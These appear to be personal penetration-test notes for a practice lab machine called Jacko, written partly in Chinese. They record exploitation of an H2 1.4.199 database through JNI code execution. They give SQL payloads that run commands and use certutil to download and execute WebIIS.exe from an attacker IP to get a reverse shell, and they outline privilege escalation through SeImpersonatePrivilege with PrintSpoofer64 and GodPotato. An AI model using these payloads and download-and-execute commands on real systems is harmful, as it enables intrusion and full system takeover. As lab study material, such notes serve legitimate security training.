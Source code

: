
from nmap find 8082 running H2, 
use default cred login, find version 1.4.199
search exploit, find # H2 Database 1.4.199 - JNI Code Execution

```
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("whoami").getInputStream()).useDelimiter("\\Z").next()');
```

```
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -f -urlcache -split \"http://192.168.49.60:8082/WebIIS.exe\" \"C:\\Windows\\Temp\\WebIIS.exe\"").getInputStream()).useDelimiter("\\Z").next()');
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\Windows\\Temp\\WebIIS.exe").getInputStream()).useDelimiter("\\Z").next()');
```


```
CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -f -urlcache -split \"http://192.168.49.60:8082/WebIIS.exe\" \"C:\\Windows\\Temp\\WebIIS.exe\" && C:\\Windows\\Temp\\WebIIS.exe").getInputStream()).useDelimiter(\"\\Z\").next()');
```

need httpserver and nc , alsp uplad nc.exe and winpeas.exe to C:\\Windows\\Temp\\

get a shell 

```
C:\Users>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.

C:\Users>%SystemRoot%\System32\whoami.exe
%SystemRoot%\System32\whoami.exe
jacko\tony

C:\Users>C:\Windows\System32\whoami.exe
C:\Windows\System32\whoami.exe
jacko\tony
```

use full path,  if can not find cmd
or [[Windows PATH]]
```
set PATH=%PATH%;C:\Windows\System32
```
```
set PATH=%PATH%;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
```


find [[SeImpersonatePrivilege]]```
SeImpersonatePrivilege, 
[[PrintSpoofer64]]
[[GodPotato]]
###   
为什么 PrintSpoofer64 和 GodPotato 利用 `SeImpersonatePrivilege`？

- **PrintSpoofer64** 和 **GodPotato** 都是利用 `SeImpersonatePrivilege` 权限，通过滥用 Windows 服务或 API 中的模拟机制来实现权限提升的漏洞利用工具。
    
- 这两个工具分别针对 Windows **打印后台处理程序（Print Spooler）服务**或 **命名管道（Named Pipe）模拟**机制，这些机制本身需要 `SeImpersonatePrivilege` 才能正常运行。
    

---

### 这两个漏洞利用的原理简述：

1. **PrintSpoofer64：**
    
    - 利用 Windows 打印后台处理程序服务。
    - 打印后台处理程序以 SYSTEM 权限运行，并在内部使用模拟操作。
    - 攻击者通过创建恶意打印任务或打印机对象，诱使打印后台处理程序模拟攻击者进程的权限。
    - 由于攻击者拥有 `SeImpersonatePrivilege`，可以利用该模拟的令牌（Token）提升权限至 SYSTEM。
2. **GodPotato：**
    
    - 利用命名管道的模拟机制。
    - 攻击者创建一个命名管道，等待高权限服务连接。
    - 利用 `SeImpersonatePrivilege` 模拟连接服务的权限令牌。
    - 通过模拟的权限令牌，攻击者能够启动 SYSTEM 权限的进程。

---

### 为什么 `SeImpersonatePrivilege` 至关重要：

- 没有 `SeImpersonatePrivilege`，攻击者无法成功模拟高权限进程的令牌。
- 这两个漏洞利用都依赖于攻击者能够模拟 SYSTEM 级别的令牌，从而实现权限提升。
- 该权限常授予许多服务账户，因而成为本地权限提升的常见滥用目标。

---

### 总结：

- **PrintSpoofer64** 利用打印后台处理程序的模拟机制结合 `SeImpersonatePrivilege` 实现提权。
- **GodPotato** 利用命名管道模拟结合 `SeImpersonatePrivilege` 实现提权。
- 两者都必须依赖 `SeImpersonatePrivilege` 来模拟 SYSTEM 令牌完成权限提升



for which version of godpotato

### Summary to choose GodPotato binary:

| Condition | Use GodPotato Binary | |-----------------|--------------------------| | .NET 4.5 or later installed | GodPotato-NET4.exe | 
| .NET 3.5 installed but no .NET4 | GodPotato-NET35.exe | 
| Neither .NET 3.5 nor .NET 4 | GodPotato-NET2.exe |

```
C:\Windows\System32\reg.exe query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5" /v Install
```
```
C:\Windows\System32\reg.exe query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Release
```

```powershell
# Check .NET 4.x
$net4 = Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" -Name Release -ErrorAction SilentlyContinue
if ($net4 -and $net4.Release -ge 378389) {
    Write-Output ".NET Framework 4.5 or later is installed"
} else {
    Write-Output ".NET Framework 4.5 or later is NOT installed"
}
```

```powershell

# Check .NET 3.5
$net35 = Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP\v3.5" -Name Install -ErrorAction SilentlyContinue
if ($net35 -and $net35.Install -eq 1) {
    Write-Output ".NET Framework 3.5 is installed"
} else {
    Write-Output ".NET Framework 3.5 is NOT installed"
}
```

```
```
C:\Users>C:\Windows\System32\reg.exe query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Release
C:\Windows\System32\reg.exe query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Release

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full
    Release    REG_DWORD    0x80ea8


C:\Users>
```